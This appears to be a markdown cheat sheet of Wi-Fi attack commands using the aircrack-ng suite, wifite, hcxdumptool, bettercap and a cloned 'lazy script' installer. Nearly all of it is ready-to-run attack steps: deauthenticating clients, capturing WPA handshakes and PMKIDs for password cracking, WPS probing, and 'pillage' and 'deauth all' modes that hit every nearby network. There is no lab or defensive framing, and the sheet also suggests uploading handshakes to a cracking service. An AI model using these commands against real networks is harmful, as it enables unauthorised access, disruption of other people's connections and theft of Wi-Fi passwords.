 # Wifi Sniffing

## Airmon:

	airmon-ng
	airmon-ng start wlan0mon
	airmon-ng stop wlan0mon
	airmon-ng start wlan0mon 9 (channel 9)
	
Disable all network services for monitor mode:

	airmon-ng check kill

## Airodump:

	airodump-ng -c 9 --bssid 00:14:6C:7E:40:80 -w psk wlan0mon

## Aireplay:

	aireplay-ng -0 1 -a 00:14:6C:7E:40:80 -c 00:0F:B5:FD:FB:C2 wlan0mon

## Airdecap-ng:

	airdecap-ng -e 'the ssid' -p passphrase  tkip.cap

The capture file must contain a valid four-way handshake. For this purpose having (packets 2 and 3) or (packets 3 and 4) will work correctly. In fact, you don't truly need all four handshake packets.

As well, only data packets following the handshake will be decrypted. This is because information is required from the handshake in order to decrypt the data packets.

## Wash:

Can be used to know if WPS is actived on router

	sudo wash -i wlan0mon

## Wifite:

Automated tools to get all the handshakes of network we scan.

Can be use with other softwares to send the handshakes in a special format on a website to crack the WI-FI password using a lot of connected servers.

	sudo wifite --dict '/home/kali/Downloads/custom-smprepchar-app0-100.txt' --clients-only --power 27 --bully --wps --infinite -p 30

### Infinite mode:

 Loop and continue after each attack. (scan 60 sec)

	sudo wifite -inf -mac -p 60 --kill --clients-only --no-wps --no-pmkid --skip-crack

### Pillage mode: 

Attack all wireless with connected clients after 5 minutes scan.

	sudo wifite -mac -p 300 --kill --clients-only --no-wps --no-pmkid --skip-crack

## Hxcdump:

Use Hxcdump to Capture PMKIDs from Local Networks

	sudo airmon-ng start wlan0
	
	sudo hcxdumptool -i wlan0mon -o capture.pcapng --enable_status=1

## Lazy Script:

	cd (back to user folder)
	git clone https://github.com/arismelachroinos/lscript.git
	cd lscript
	chmod +x install.sh
	./install.sh
	

## Bettercap:

Get handshakes easily for all networks

	sudo bettercap --iface wlan1mon
	help wifi
	wifi.recon on (wifi sniffing)
	wifi.show
	wifi.deauth all (interface deauthentification)
	set wifi.handshakes '/desiredfolderlocation' (choose directory for hanhshakes)

	wifi.assoc all (PMKID Attack) (use all or MAC address)
	wifi.show
